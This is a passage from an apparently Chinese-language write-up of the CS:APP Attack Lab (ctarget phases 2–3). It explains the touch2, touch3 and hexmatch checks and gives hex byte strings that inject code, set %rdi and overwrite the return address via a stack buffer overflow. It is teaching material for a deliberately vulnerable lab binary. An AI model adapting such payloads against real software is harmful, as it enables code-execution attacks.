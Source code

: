   - 最后我们的输入数据如下

      ```text
      48 c7 c7 fa 97 b9 59 68
      ec 17 40 00 c3 31 31 31
      31 31 31 31 31 31 31 31
      31 31 31 31 31 31 31 31
      31 31 31 31 31 31 31 31
      78 dc 61 55 00 00 00 00  
      ```

    通过当前关卡的截图如下
    ![Wrong](img/csapp-lab-writeup/ctarget_touch2.png)
- **phase3**
  - `touch3`函数与`touch2`函数类似，都存在着一个比较的判断，通过该判断即可通过当前关卡。  
    所不同的是，`touch3`函数中使用另一个函数`hexmatch`进行判断。`hexmatch`传入的参数分别为`&cookie`与`touch3`的第一个参数`%rdi`。
    ![Wrong](img/csapp-lab-writeup/ctarget_3_2.png)
  - 分析`hexmatch`函数，可以发现，当栈溢出时刻的`%rdi == 0x5561dc13`时，即可通过当前关卡。
    ![Wrong](img/csapp-lab-writeup/ctarget_3_1.png)
  - 由于该关卡修改的寄存器与第二关的寄存器一致，所以可以直接修改第二关的输入数据，即可得到当前关卡的输入数据。

    ```text
    48 c7 c7 13 dc 61 55 68
    fa 18 40 00 c3 31 31 31
    31 31 31 31 31 31 31 31
    31 31 31 31 31 31 31 31
    31 31 31 31 31 31 31 31
    78 dc 61 55 00 00 00 00
    ```
